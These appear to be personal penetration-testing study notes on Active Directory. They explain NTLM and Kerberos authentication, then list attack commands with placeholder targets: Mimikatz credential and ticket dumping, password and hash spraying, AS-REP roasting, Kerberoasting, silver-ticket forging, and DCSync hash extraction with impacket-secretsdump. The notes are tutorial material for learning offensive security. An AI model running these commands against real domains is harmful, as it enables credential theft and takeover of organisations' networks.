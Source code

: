 <h3 id="understanding-authentication">Understanding Authentication</h3>
<p><strong>NTLM</strong></p>
<ul>
<li>Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server</li>
<li>Steps are:<ul>
<li>Calculate NTLM Hash</li>
<li>Send username to application server</li>
<li>App server sends nonce</li>
<li>Client encrypts nonce using their hash and sends both to app server</li>
<li>App server sends client response, username, and nonce to the DC (user&#39;s hash unknown)</li>
<li>DC encrypts nonce with NTLM hash (already known) of the user and compares to response</li>
<li>If valid, DC approves authentication</li>
</ul>
</li>
</ul>
<p><strong>Kerberos</strong></p>
<ul>
<li>Adopted from Kerberos v5 from MIT, used as primary auth method since 2003</li>
<li>Uses a ticket system, DC acts as a Key Distribution Center (KDC)</li>
<li>Rather than authenticating against the application, clients get a ticket from the KDC</li>
<li>Steps:<ul>
<li>Client sends Authentication Server Request (AS-REQ) to the DC<ul>
<li>This contains a timestamp encrypted using the hash derived from the user&#39;s username and password</li>
</ul>
</li>
<li>DC receives request and looks up the password hash of the user in the <code>ntds.dit</code> file, using it to decrypt the timestamp</li>
<li>If the decryption is successful and the timestamp is unique, auth is granted</li>
<li>DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)<ul>
<li>Session key can be decrypted with user hash and reused</li>
<li>TGT contains user and domain info, IP address of client, timestamp, and a session key<ul>
<li>The TGT is encrypted using the NTLM hash of the krbtgt user</li>
<li>TGT is valid for 10 hours by default and is automatically renewed while session remains active</li>
</ul>
</li>
</ul>
</li>
<li>Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC</li>
<li>The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request</li>
<li>The KDC then performs the following checks:<ul>
<li>The TGT has a valid timestamp</li>
<li>The username from the TGS-REQ matches the username of the TGT</li>
<li>The client IP address coincides with the TGT IP address</li>
</ul>
</li>
<li>If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:<ul>
<li>Name of the service access granted for</li>
<li>2nd session key to be used between the client and service</li>
<li>Service ticket containing the username, group memberships, and 2nd session key</li>
</ul>
</li>
<li>Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself</li>
<li>The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted</li>
</ul>
</li>
</ul>
<p><strong>Cached Credentials</strong></p>
<ul>
<li>Password hashes stored in Local Security Authority Subsystem Service (LSASS)</li>
<li>Basically just use Mimikatz as before<ul>
<li><code>privilege::debug</code> gives us the <code>SeDebugPrivilege</code> to run below commands</li>
<li><code>token::elevate</code> to elevate to SYSTEM user</li>
<li><code>lsadump::sam</code> will dump NTLM hashes of local users</li>
<li><code>sekurlsa::logonpasswords</code> will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets</li>
<li><code>sekurlsa::tickets</code> will show tickets stored in memory<ul>
<li>We want to steal TGT more than a TGS for overall service access (rather than just one)</li>
</ul>
</li>
</ul>
</li>
<li>Public Key Infrastructure (PKI)<ul>
<li>Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources</li>
<li>Certificate Authority (CA) servers can grant/revoke certificates<ul>
<li>The private keys used are usually non-exportable, but Mimikatz&#39;s <code>crypto::capi</code> and <code>crypto::cng</code> can take care of that</li>
</ul>
</li>
</ul>
</li>
</ul>
<h3 id="ad-password-attacks">AD Password Attacks</h3>
<p><strong>Password Spraying</strong></p>
<ul>
<li>Avoiding lockout - <code>net accounts</code> will show authentication lockout information</li>
<li>Using <a href="https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1">script enumeration</a> <ul>
<li><code>.\Spray-Passwords.ps1 -Pass Nexus123! -Admin</code></li>
</ul>
</li>
<li>SMB password spraying<ul>
<li>Use <code>crackmapexec</code><ul>
<li><code>crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success</code><ul>
<li>Can also pass single username/password</li>
</ul>
</li>
<li>This sprays passwords against a single IP&#39;s SMB share</li>
<li>This will also show whether the user is an administrator</li>
</ul>
</li>
<li>SMB hash spraying<ul>
<li><code>crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}</code></li>
</ul>
</li>
<li>Crackmapexec can also run comands via SMB:<ul>
<li><code>nxc smb {IP} -u {username} -p {password} -X &#39;powershell -e ...</code></li>
</ul>
</li>
</ul>
</li>
<li>Obtaining TGTs<ul>
<li>Use <a href="https://github.com/ropnop/kerbrute/releases/">kerbrute</a> - <code>.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt &quot;{password}&quot;</code></li>
<li>AS-REP Roasting without credentials, described below</li>
</ul>
</li>
<li>WinRM<ul>
<li>Indicated by port 5985/5986</li>
<li><code>evil-winrm -i {IP} -u {domain_user} -p {password}</code></li>
<li>Also accepts NTLM hashes <code>evil-winrm -i {IP} -u {user} -H {hash}</code></li>
</ul>
</li>
<li>RPC:<ul>
<li>Indicated by port 135,593</li>
<li>Can get an RPC shell with <code>rpcclient -U {username} {IP}</code><ul>
<li><code>enumdomusers</code> can get the domain users from within RPC, which we can then check again for preauth</li>
<li><code>queryuser {username}</code> to get user properties (passwords could be in descriptions)<ul>
<li>Can also just <code>querydispinfo</code></li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
<p><strong>AS-REP Roasting</strong></p>
<ul>
<li>Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user</li>
<li>Performing hash cracking after receiving the AS-REP from the KDC</li>
<li>Performed with <code>impacket-GetNPUsers</code> on kali side<ul>
<li><code>impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}</code> (alongside password)<ul>
<li>With users.txt: <code>impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v &#39;KDC_ERR_C_PRINCIPAL_UNKNOWN&#39;</code></li>
</ul>
</li>
<li>Hashes can be cracked with Hashcat&#39;s 18200</li>
</ul>
</li>
<li>Performed with <a href="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries"><code>Rubeus</code></a> on Windows side<ul>
<li><code>.\Rubeus.exe asreproast /nowrap</code></li>
</ul>
</li>
<li>This can also be done without a password to find users who don&#39;t have Kerberos pre-auth<ul>
<li><code>impacket-GetNPUsers -dc-ip {IP} {domain}/</code></li>
<li>These users don&#39;t require a password to grab the TGT hash</li>
</ul>
</li>
</ul>
<p><strong>Kerberoasting</strong></p>
<ul>
<li>Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket</li>
<li>Can use <code>impacket-GetUserSPNs</code> if remote with creds<ul>
<li><code>impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request</code></li>
</ul>
</li>
<li>Can use <code>Rubeus</code> again if local<ul>
<li><code>.\Rubeus.exe kerberoast /outfile:hash.txt</code></li>
</ul>
</li>
<li>Can crack with Hashcat&#39;s 13100 mode</li>
</ul>
<p><strong>Silver Tickets</strong></p>
<ul>
<li>Forging our own service tickets via a password hash that should only be known to the DC and service account<ul>
<li>Basically forging a ticket using a hash that tells the service we have more permissions than we actually do</li>
<li>This requires that Privileged Account Certificate (PAC) be disabled, which it often is</li>
</ul>
</li>
<li>To create the ticket, we need:<ul>
<li>SPN password hash - can use <code>sekurlsa::logonpasswords</code> on machine with established session with application (usually(?) current machine)</li>
<li>Domain SID - <code>whoami /user</code> minus the last number (user RID)</li>
<li>Target SPN - basically just the DNS host name and the protocol (like HTTP)</li>
</ul>
</li>
<li>Performed using <code>mimikatz</code><ul>
<li>Don&#39;t escalate privileges to <code>NT Authority\System</code></li>
<li><code>kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{dnshostname} /service:{service_protocol(http)} /rc4:{NTLM_hash} /user:{any_domain_user}</code><ul>
<li><code>ptt</code> allows us to inject forged ticket into memory of target machine</li>
</ul>
</li>
</ul>
</li>
<li>Then, we should be able to access the service with the following:<ul>
<li><code>iwr -UseDefaultCredentials {protocol}://{dnshostname}</code></li>
</ul>
</li>
</ul>
<p><strong>Domain Controller Synchronization</strong></p>
<ul>
<li>Sometimes multiple DCs across an environment for redundancy</li>
<li>These DCs use Directory Replication Service (DRS) to synchronize</li>
<li>DCs receiving requests for updates don&#39;t check if the request came from a known DC and only verify that the SID has the correct privileges<ul>
<li>This means that we just need a user with the correct privileges</li>
<li><em>Required</em>: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set <ul>
<li>Owned by Domain Admins, Enterprise Admins, and Administrators by default</li>
</ul>
</li>
</ul>
</li>
<li>If we have <code>WriteDACL</code> on the domain via a group, we can give ourselves the necessary permissions</li>
<li>Performed with <code>mimikatz</code> on domain-joined machine or <code>impacket-secretsdump</code> on kali<ul>
<li>This gives us a way to get the hash of any domain user</li>
<li><code>lsadump::dcsync /user:{domain}\{user}</code> </li>
</ul>
</li>
<li>Can also be performed with <code>impacket-secretsdump</code><ul>
<li><code>impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:&quot;{password}&quot;@{DC_IP}</code></li>
</ul>
</li>
</ul>
